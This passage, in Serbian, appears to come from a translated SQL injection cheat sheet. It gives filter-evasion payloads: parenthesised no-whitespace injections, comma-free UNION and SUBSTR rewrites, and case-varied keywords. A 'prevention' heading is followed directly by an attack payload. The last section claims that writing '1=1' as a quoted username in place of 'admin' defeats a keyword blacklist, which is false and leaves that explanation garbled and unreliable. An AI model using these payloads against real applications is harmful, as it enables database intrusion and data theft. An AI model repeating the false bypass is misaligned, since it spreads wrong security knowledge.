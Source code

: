 ### Prevencija

Da bi se sprečila No Whitespace SQL injekcija, preporučuje se korišćenje parametrizovanih upita ili sanitizacija korisničkog unosa. Takođe, važno je redovno ažurirati softver i primenjivati sigurnosne zakrpe kako bi se smanjio rizik od SQL injekcija.

```sql
?id=(1)and(1)=(1)--
```

### Bypass bez zareza

Bypass bez zareza - korišćenje OFFSET, FROM i JOIN

```
LIMIT 0,1         -> LIMIT 1 OFFSET 0
SUBSTR('SQL',1,1) -> SUBSTR('SQL' FROM 1 FOR 1).
SELECT 1,2,3,4    -> UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d
```

### Generički zaobilazi

Crna lista korišćenjem ključnih reči - zaobilaženje korišćenjem velikih/malih slova

```sql
?id=1 AND 1=1#
?id=1 AnD 1=1#
?id=1 aNd 1=1#
```

Crna lista korišćenjem ključnih reči bez obzira na veličinu slova - zaobilaženje korišćenjem ekvivalentnog operatora

Uobičajena metoda za sprečavanje SQL injection napada je korišćenje crne liste ključnih reči. Međutim, ova metoda često ne uzima u obzir veličinu slova, što omogućava napadačima da zaobiđu zaštitu.

Na primer, ako je ključna reč "admin" na crnoj listi, napadač može da umetne "ADMIN" ili "AdMiN" kako bi izbegao detekciju. Međutim, postoji način da se zaobiđe ovakva zaštita korišćenjem ekvivalentnog operatora.

Umesto da koristite ključnu reč direktno, možete koristiti ekvivalentni operator koji će izvršiti istu funkciju. Na primer, umesto da koristite "admin", možete koristiti "1=1", što je uvek tačno. Na taj način, SQL upit će biti izvršen bez obzira na crnu listu ključnih reči.

Na primer, umesto:

```
SELECT * FROM users WHERE username = 'admin' AND password = 'password';
```

Možete koristiti:

```
SELECT * FROM users WHERE username = '1=1' AND password = 'password';
```

Na ovaj način, SQL upit će biti izvršen bez obzira na to da li je ključna reč "admin" na crnoj listi ili ne.
